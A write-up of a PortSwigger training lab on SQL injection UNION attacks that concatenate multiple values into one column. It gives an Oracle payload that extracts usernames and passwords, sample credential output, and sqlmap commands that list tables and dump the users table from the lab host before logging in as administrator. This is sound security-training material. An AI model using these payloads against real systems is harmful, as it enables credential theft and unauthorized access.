






# SQL injection UNION attack, retrieving multiple values in a single column

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

## Definition
In the preceding example, suppose instead that the query only returns a single column.

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
```sql
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the `~` character.

The results from the query will let you read all of the usernames and passwords, for example:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Note that different databases use different syntax to perform string concatenation. For more details, see the [SQL injection cheat sheet](../SQL+injection+cheat+sheet.pdf).

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

**DISCOVERING THE NUMBER OF COLUMNS**  
The image below shows the behavior of the application when the payload tries to order the query result for a number that exceeds the maximum number of columns:
  


However, dwindling the number was possible to get the exact number of columns in the query statement, as shown by the image below:
  


**LOOKING FOR SENSITIVE INFORMATION**  
Once the flaw is confirmed, is possible to use [sqlmap](https://github.com/sqlmapproject/sqlmap) to list all tables used by the application:
  
```bash
python3 sqlmap.py -u "https://0ac6002003cc5ef8c04d6a7400590077.web-security-academy.net/filter?category=Gifts" --tables --exclude-sysdbs
```

  
And then, dump secrets from the user's table that holds all credentials:
```bash
python3 sqlmap.py -u "https://0ac6002003cc5ef8c04d6a7400590077.web-security-academy.net/filter?category=Gifts" --dump -T users
```

  
The same result could be achieved manually by injecting the SQL statement in the `category` parameter, as shown below:
  


**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  


## Key Words
> sql injection, sqlmap, concatenation